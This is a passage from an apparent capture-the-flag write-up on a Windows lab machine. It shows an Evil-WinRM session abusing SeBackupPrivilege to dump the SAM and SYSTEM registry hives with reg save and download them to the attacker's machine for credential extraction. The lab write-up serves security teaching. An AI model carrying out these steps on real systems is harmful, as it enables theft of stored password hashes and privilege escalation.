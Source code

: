 ## Post Exploitation

To elevate our privileges, let’s check the privileges available to the current user.

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

The current user is assigned multiple privileges, including the ability to read, back up, and restore files and directories regardless of assigned permissions. The user can also shut down the system and traverse directories. We will first use the privilege to back up files and directories to elevate our privileges.

Given that we have permission to traverse the directory, let’s navigate to the `C:\` directory and create a `Temp` directory. After changing the directory to Temp, we will use our `SeBackupPrivilege` to read the `SAM` file and save a variant of it. Similarly, we will read the `SYSTEM` file and save a variant of it.

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> cd c:\
*Evil-WinRM* PS C:\> mkdir Temp

Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/20/2024   6:54 AM                Temp

*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
The operation completed successfully.
```
Now, let’s move to the `Temp` directory, where we should have a `SAM` and a `SYSTEM` file. We will download these files from the target machine to our local machine.

```bash
*Evil-WinRM* PS C:\Temp> download sam
                                        
Info: Downloading C:\Temp\sam to sam
                                        
Info: Download successful!

*Evil-WinRM* PS C:\Temp> download system
                                        
Info: Downloading C:\Temp\system to system
                                        
Info: Download successful!

```
